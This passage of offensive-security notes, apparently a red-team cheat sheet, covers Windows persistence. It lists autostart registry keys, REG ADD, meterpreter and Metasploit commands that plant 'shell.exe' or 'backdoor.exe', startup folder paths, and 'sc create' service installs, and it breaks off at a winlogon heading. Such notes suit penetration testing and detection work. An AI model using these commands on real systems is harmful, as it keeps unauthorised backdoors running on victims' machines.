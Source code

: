             -   **The keys used by the malware to gain persistence at root/admin level**

                -   \"HKLM\\SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run\"   

                -   \" HKLM \\SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\RunOnce \"

                -   \" HKLM \\Software\\Microsoft\\Windows\\CurrentVersion\\RunServices \"

                -   \" HKLM \\Software\\Microsoft\\Windows\\CurrentVersion\\RunServicesOnce \" 

                -   \" HKLM \\Software\\Microsoft\\Windows\\CurrentVersion\\Policies\\Explorer\\Run \"

        -   **Adding payloads**

            -   REG ADD HKCU\\Software\\Microsoft\\Windows\\CurrentVersion\\Run /v shell  /t REG\_SZ  /f /d \"c:\\shell.exe\" 

            -   meterpreter\>reg setval -kHKLM\\software\\microsoft\\windows\\currentversion\\run \'\"C:\\backdoor.exe\"\' --v

        -   **Metasploit**

            -   use post/windows/local/registry\_persistence

            -   use post/windows/manage/persistence\_exe

                -   set rexepath /root/payload.exe


-   **Auto startup folders**

    -   **Autostart folder of the current user**

        -   %appdata%\\Microsoft\\Windows\\Start Menu\\Programs\\Startup

        -   C:\\Users\\USERNAME\\AppData\\Roaming\\Microsoft\\Windows\\Start Menu\\Programs\\Startup

    -   **Autostart folder of all users**

        -   %programdata%\\Microsoft\\Windows\\Start Menu\\Programs\\Startup

        -   C:\\ProgramData\\Microsoft\\Windows\\Start Menu\\Programs\\StartUp

-   **service execution**

    -   make a service that has our shell to start every time on startup or every time a user logon (admin privilege is required)

        -   sc create \<servicename\> binPath= \"c:\\shell.exe\" start=auto    //make a service that has our shell to start every time on startup

        -   sc start \<service name\>

    -   you can find it at

        -   \"HKEY\_LOCAL\_MACHINE\\SYSTEM\\CurrentControlSet\\Services\\servicename\"  or

        -   \"HKEY\_LOCAL\_MACHINE\\Software\\Microsoft\\Windows\\CurrentVersion\\RunServices\"

    -   **Metasploit**

        -   use exploit/windows/local/persistence service

-   **Windows logon helper (winlogon.exe process)**
